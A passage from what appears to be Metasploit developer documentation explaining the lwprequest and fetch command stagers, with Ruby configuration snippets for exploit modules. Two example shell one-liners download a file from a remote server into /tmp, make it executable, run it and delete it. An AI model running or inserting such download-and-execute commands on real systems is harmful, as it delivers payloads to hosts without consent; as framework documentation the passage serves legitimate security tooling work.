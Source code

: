 ```bash
lwp-request -m GET http://10.5.135.201:8080/mdkwKcdGCtU > /tmp/OKOnDYwn;chmod +x /tmp/OKOnDYwn;/tmp/OKOnDYwn;rm -f /tmp/OKOnDYwn

```

To use the lwprequest stager, either specify your CmdStagerFlavor in the metadata:

```ruby
'CmdStagerFlavor' => [ 'lwprequest' ]
```

Or set the :lwprequest key to `execute_cmdstager`:

```ruby
execute_cmdstager(flavor: :lwprequest)
```


## Fetch Command Stager - BSD Only

The [fetch](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/fetch.rb) command stager is similar to the curl command stager, except instead of using curl to download the file on the target host, it uses the `fetch` command. It requires users to specify a `SRVHOST` and `SRVPORT` values and will start an HTTP server to host the payload file. An example of that looks similar to this:

```bash
fetch -qo /tmp/UGWuPPcy http://10.5.135.201:8080/mdkwKcdGCtU;chmod +x /tmp/UGWuPPcy;/tmp/UGWuPPcy;rm -f /tmp/UGWuPPcy
```
To use the fetch stager, either specify your CmdStagerFlavor in the metadata:

```ruby
'CmdStagerFlavor' => [ 'fetch' ]
```

Or set the :fetch key to `execute_cmdstager`:

```ruby
execute_cmdstager(flavor: :fetch)
```
